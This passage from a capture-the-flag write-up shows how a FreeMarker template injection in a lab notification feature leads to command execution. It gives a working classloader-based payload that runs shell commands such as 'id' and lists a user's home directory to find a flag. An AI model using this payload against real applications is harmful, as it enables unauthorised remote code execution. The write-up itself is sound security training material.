 First, we will test if the SSTI vulnerability is not patched. For it, firs load one of the existing notification template.

![14-Load_Notification](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/dea41fc1-a975-4c80-8f59-62a763cbafd5)

Now let's try to do the classic calcul `7*7` and let's see if the console return us the result.

![15-SSTI](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/838f41e1-e2ba-4460-b7c7-dbc33be17a46)

Perfect! Let's execute some commands

```bash
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

![16-Exploit_SSTI](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/6d804f4e-9ad9-4328-a873-1a3cf9cbe49b)

Now repeat the process to enumerate the machine. We start to list the files in the Dave home directory.

```bash
${dwf.newInstance(ec,null)("ls /home/dave/")}
```

![17-LocateFlag](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/3d9a0264-c81a-498d-8307-b45b99519dd9)

We find the flag! Let's read it's content.

![18-flag](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/52d4b617-85fa-4f4a-a686-1c19ce0c176e)

Flag : **Hero{pl41nt3xt_p4ssw0rd_4nd_s5t1_b1t_much_41nt_1t?}**


## LFM-4 : Put the past behind<a name="lfm4"></a>

Difficulty : **Easy**

Value : **454 pts**

Author : **Log_s**

Description :

```
One more step to go!
```

### Solution

Once the Dave user home directory, we found the previous flag but we seen also a file called `randomfile.txt.enc`.

![21-encoded_file](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/47a5fa74-540c-430c-8b73-a2994d975ca5)
